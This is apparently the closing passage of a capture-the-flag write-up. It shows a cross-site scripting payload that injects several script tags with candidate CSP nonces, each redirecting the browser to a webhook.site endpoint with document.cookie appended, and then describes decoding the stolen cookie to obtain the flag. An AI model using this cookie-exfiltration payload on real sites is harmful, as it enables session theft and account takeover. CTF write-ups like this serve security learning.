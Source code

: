 ```html
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="93af138c9d0fb8ad1c4ce6ea446bc0ab0f676ac7d823c00d4f2d6dbd42b645c7">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
<script nonce="e6a9d7a1c434b1deaab123b2eed806c4a319e832ba933b2a1135ff99b33d6aef">
    location.replace("https://webhook.site/551d81d6-5ef8-4d06-8ebb-bb98d3ba584e/?cookie=" + document.cookie)
</script>
```

> Note: Usually, I prefer using the `fetch` function for making requests. However, for some unknown reason, I couldn't get it to work on the remote instance. As an alternative method for making a GET request, I used `location.replace`. 

`location.replace` will navigate the browser to our endpoint at [webhook.site](https://webhook.site){:target="_blank"}, and pass the cookie through a query parameter.

So, one of the nonces has to work, right?

Right. Cookie. 🍪

![](/uploads/{{ page.permalink }}/ss26.png)

Decode it to get the userId.

![](/uploads/{{ page.permalink }}/ss27.png)

Get the flag. 🎉 

![](/uploads/{{ page.permalink }}/ss28.png)
